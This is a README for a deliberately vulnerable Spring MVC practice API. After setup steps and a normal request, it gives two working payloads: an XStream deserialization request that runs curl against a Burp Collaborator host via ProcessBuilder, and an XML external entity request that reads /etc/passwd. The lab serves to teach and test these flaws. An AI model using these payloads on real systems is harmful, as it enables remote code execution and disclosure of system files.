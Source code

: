 # Sample Spring MVC API vulnerable to deserialization attacks

1. `git clone https://github.com/eoftedal/deserialize.git`
2. `mvn clean install jetty:run`

Accessible on port 8080

## Normal request

```
		POST /api/contacts HTTP/1.1
		Host: localhost
		Content-Type: application/xml
		Accept: application/xml

		<contact>  
		    <id>1</id>
		    <firstName>yo</firstName>
		    <lastName>lo</lastName>
		    <email>yo@lo.no</email>
		</contact>  
```

## Deserialization attack

```
		POST /api/contacts HTTP/1.1
		Host: localhost
		Content-Type: application/xml
		Accept: application/xml


		<dynamic-proxy>  
		<interface>org.insecurelabs.api.contacts.Contact</interface>  
		<handler class="java.beans.EventHandler">  
		    <target class="java.lang.ProcessBuilder">
		    <command><string>/usr/bin/curl</string><string>http://[yourid].burpcollaborator.net</string></command>
		    </target>
		    <action>start</action>
		</handler>  
		</dynamic-proxy> 
```

## XEE

```
		POST /api/contacts HTTP/1.1
		Host: localhost
		Content-Type: application/xml
		Accept: application/xml

		<?xml version="1.0" encoding="utf-8"?>
		<!DOCTYPE root [
		    <!ELEMENT string (#PCDATA)>
		    <!ENTITY content SYSTEM "file:/etc/passwd">
		]>
		<contact>  
		    <id>1</id>
		    <firstName>&content;</firstName>
		    <lastName>lo</lastName>
		    <email>yo@lo.no</email>
		</contact>
```


